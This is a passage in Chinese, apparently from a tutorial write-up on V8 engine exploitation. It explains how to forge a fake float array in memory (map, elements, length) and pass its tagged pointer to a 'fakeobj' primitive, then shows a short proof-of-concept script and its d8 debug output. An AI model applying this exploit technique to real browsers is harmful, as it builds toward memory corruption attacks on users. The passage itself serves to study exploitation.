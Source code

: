 刚好在下图红色框出的区域构造出了可以作为浮点数组使用的内存。

![](</assets/images/Pasted image 20220219175057.png>)

这个伪造的数组：

- map：浮点数组 map `0x08203ae1`
- properties：`0` 不会用到
- elements： `0x0820eae1`， 只是随便选了一个可访问的内存，没有特殊需要
- length：`0xc` => `6` 的 Smi 形式。

`arr_contains_fake_obj` 的地址减去 24 就可以是红框的起始地址，把这个起始地址转换成 tagged pointer 就可以用作 `fakeobj` 函数的参数。

验证下效果：

```javascript
// 调用 fakeobj 函数，得到伪造的数组
let fake_obj = fakeobj(fake_obj_tagged_ptr);
%DebugPrint(fake_obj);
// 读取伪造的数组的第一个元素
console.log(fake_obj[0]);
readline();
```

./d8.exe --allow-natives-sytax poc.js 运行后输出如下:

```bash
8203ae1
8203b31
8049bc9
0x01c908049d09 <JSArray[3]>
8049d09
8049cf1
0x01c908049cf1 <JSArray[6]>
1.6291488275489796e-260
```
